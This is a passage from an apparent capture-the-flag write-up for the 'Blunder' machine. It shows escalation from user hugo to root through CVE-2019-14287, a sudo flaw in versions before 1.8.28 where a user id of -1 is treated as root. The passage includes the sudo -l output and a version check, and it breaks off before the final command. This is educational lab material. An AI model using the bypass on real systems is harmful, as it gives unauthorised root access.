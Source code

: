 

    hugo@blunder:~$ cat user.txt
    da700cb5************************



## Priv: hugo --\> root

### Enumeration

`sudo -l` gives something interesting:



    hugo@blunder:~$ sudo -l
    Password: 
    Matching Defaults entries for hugo on blunder:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User hugo may run the following commands on blunder:
        (ALL, !root) /bin/bash



This means that I can run `sudo /bin/bash` as any user except for root,
which is a shame, as root is the user I want to run it as.

### CVE-2019-14287

The configuration above is supposed to stop `sudo` as running as the
root user. There was a public CVE release in November 2019 about how
there were other ways to enter root besides `root` that got around this
restriction. This impacts `sudo` versions before 1.8.28. I can see
Blunder is running 1.8.25:



    hugo@blunder:~$ sudo --version
    Sudo version 1.8.25p1
    Sudoers policy plugin version 1.8.25p1
    Sudoers file grammar version 46
    Sudoers I/O plugin version 1.8.25p1



When running `sudo`, you can enter `-u [user]` to say which user to run
as. You can also enter the user as a number in the format `-u#[uid]`.
root is used id 0, so I can try:



    hugo@blunder:~$ sudo -u#0 /bin/bash
    Password: 
    Sorry, user hugo is not allowed to execute '/bin/bash' as root on blunder.



So far things are working as expected. The vulnerability is that I can
enter user id -1, and `sudo` will treat that as root. It works:
